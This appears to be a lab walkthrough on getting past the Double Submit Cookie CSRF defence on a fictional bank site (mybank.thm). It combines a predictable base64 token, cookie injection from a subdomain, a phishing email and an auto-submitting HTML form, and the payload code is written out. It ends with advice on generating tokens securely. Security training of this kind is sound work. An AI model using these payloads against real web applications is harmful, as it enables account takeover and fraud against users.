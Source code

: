 # Overview

We've observed that without CSRF tokens, the bank web application was susceptible to vulnerabilities, exposing it to potential exploitation. However, the introduction of CSRF tokens significantly enhances security measures.

A CSRF token is a unique, unpredictable value associated with a user's session, ensuring each request comes from a legitimate source. One effective implementation is the Double Submit Cookies technique, where a cookie value corresponds to a value in a hidden form field. When the server receives a request, it checks that the cookie value matches the form field value, providing an additional layer of verification.

## How it works

1. **Token Generation**: When a user logs in or initiates a session, the server generates a unique CSRF token. This token is sent to the user's browser both as a cookie (CSRF-Token cookie) and embedded in hidden form fields of web forms where actions are performed (like money transfers).
2. **User Action**: Suppose the user wants to transfer money. They fill out the transfer form on the website, which includes the hidden CSRF token.
3. **Form Submission**: Upon submitting the form, two versions of the CSRF token are sent to the server: one in the cookie and the other as part of the form data.
4. **Server Validation**: The server then checks if the CSRF token in the cookie matches the one sent in the form data. If they match, the request is considered legitimate and processed; if not, the request is rejected.

## Possible Vulnerable Scenarios

Despite its effectiveness, it's crucial to acknowledge that hackers are persistent and have identified various methods to bypass Double Submit Cookies:

- **Session Cookie Hijacking (Man in the Middle Attack)**: If the CSRF token is not appropriately isolated and safeguarded from the session, an attacker may also be able to access it by other means (such as malware, network spying, etc.).
- **Subverting the Same-Origin Policy (Attacker Controlled Subdomain)**: An attacker can set up a situation where the browser's same-origin policy is broken. Browser vulnerabilities or deceiving the user into sending a request through an attacker-controlled subdomain with permission to set cookies for its parent domain could be used.
- **Exploiting XSS Vulnerabilities**: An attacker may be able to obtain the CSRF token from the cookie or the page itself if the web application is susceptible to Cross-Site Scripting (XSS). By creating fraudulent requests with the double-submitted cookie CSRF token, the attacker can get around the defence once they have the CSRF token.
- **Predicting or Interfering with Token Generation**: An attacker may be able to guess or modify the CSRF token if the tokens are not generated securely and are predictable or if they can tamper with the token generation process.
- **Subdomain Cookie Injection**: Injecting cookies into a user's browser from a related subdomain is another potentially sophisticated technique that might be used. This could fool the server's CSRF protection system by appearing authentic to the main domain.

In this task, we will use one of the above techniques to bypass a variant of the Double Submit cookie technique.

## How it Works

Now, we will see how the attack works, connecting it to the previous example. This technique will chain two vulnerable scenarios by reversing token generation and injecting a cookie through an attacker-controlled subdomain.

The attacker has successfully transferred the amount from Josh's bank account but seems more greedy and wants to take complete control of the bank account. To exploit the account, the attacker must access the bank account. But how? This requires the password of the Josh account.

Exploiting a vulnerability like CSRF requires a lot of code and functionality and understanding the website logic from the developer's point of view. The attacker logged into his bank account and noticed that the form for updating passwords is protected through a CSRF token.

```html
<form method="post" action="">
    <label for="password">Password:</label>
    <input type="password" id="password" name="new_password" required>
    <label for="confirm_password">Confirm Password:</label>
    <input type="password" id="confirm_password" name="confirm_password" required>
    <input type="hidden" id="csrf_token" name="csrf_token" value="<?php echo $_COOKIE['csrf-token']; ?>">
    <button type="submit" name="password_submit">Update Password</button>
</form>
```

But does that ultimately resolve the problem? An attacker can only bypass this security measure if he finds a way to reverse-engineer the token. He opens the Chrome built-in Inspect element console to verify the cookies created locally by the website.

The attackers identified two relevant cookies created in the browser: `csrf-token` and `PHPSESSID`. Typically, the `PHPSESSID` is randomly generated by the PHP engine itself, and it is not very easy to reverse it for session hijacking. Consequently, the attacker copied his token and noticed if he could reverse engineer it. He used Cyber Chef to see if he could decode the string and, surprisingly, noticed that the CSRF token was a string he could decrypt.

He noticed that the string decoded from the token was his bank account number, meaning the web application developer needed to implement CSRF tokens better to avoid exploitation. We know that the attacker already has access to the subdomain of `mybank.thm` which can help him inject the cookie and has already reverse-engineered the cookie. Now, it's time to prepare a payload.

### Preparing Payload

For the attack to work, the attacker would use the social engineering technique to make the victim click on a link. The attacker will prepare an enticing email to compel the user to change his password. He prepared an email citing a suspicious login attempt to Josh's email and sent it to Josh.

The email contained a link to an attacker-controlled domain (`attacker.mybank.thm`) with a password update form similar to a bank one. The form also has a CSRF token already set as a hidden parameter.

```html
<form method="post" action="http://mybank.thm:8080/changepassword.php" id="autos">
    <label for="password">Password:</label>
    <input type="password" id="password" name="current_password" value="<?php echo "GB82MYBANK5697" ?>" required>
    <label for="confirm_password">Confirm Password:</label>
    <input type="password" id="confirm_password" name="confirm_password" value="Attacker Unique Password" required>
    <input type="hidden" id="csrf_token" name="csrf_token" value="Decrypted Token Value">
    <button type="submit" name="password_submit" id="password_submit">Update Password</button>
</form>
<script>
document.getElementById('password_submit').click();
</script>
```

In the above code, the attacker will update the payload and add the base64 value of Josh's bank account as a new CSRF token value. Navigate to Josh's mailbox at the `mailbox.thm:8081` to see the new mail with the crafted CSRF payload.

Once you click the link, it will redirect you to the attacker-controlled subdomain page and auto-submit the form to change the password. The attacker contains a code similar to that of the change password page of `mybank.thm`; however, he is also setting a cookie with the following code so that it will be forwarded to the main domain `mybank.thm` while triggering a CSRF attack.

```php
<?php
setcookie(
    'csrf-token',
    base64_encode("GB82MYBANK5699"),
    [
        'expires' => time() + (365 * 24 * 60 * 60),
        'path' => '/',
        'domain' => 'mybank.thm',
        'secure' => false,
        'httponly' => false,
        'samesite' => 'Lax'
    ]
);
?>
```

The attacker knows the hidden form parameter, and the form will submit all the data, including the hidden fields, to the original change password page of `mybank.thm:8080`. Following is the server-side code, let's see what is happening on the server:

```php
<?php
if (base64_decode($_POST["csrf_token"]) == base64_decode($_COOKIE['csrf-token'])) {
    // Retrieve form data
    $currentPassword = $_POST["current_password"];
    $newPassword = $_POST["confirm_password"];
    // Update Password
    ...
}
?>
```

As we see in the above code, the server will decode the CSRF token and compare it with the cookie value. The server hosting `mybank.thm:8080` will consider the request legitimate as it comes from a logged-in user, and the CSRF token is also valid and will update the password.

## Securing the Breach

From a pentester/red teamer perspective, it is essential to validate the complete flow of HTTP request/response, double-check the request parameters for any possible vulnerability like easy-to-guess tokens and invalid input, and scrutinize the client-side JavaScript code for potential issues.

From a secure coder perspective, ensuring that the token generation methods generate extremely unique and hard-to-guess tokens is essential. The bank IT team quickly identified the issue and updated the token generation algorithm to remain unique and hard to predict.

Using the same payload will not work because the server has correctly implemented a secure and unpredictable CSRF token that won't allow requests from an unknown source.
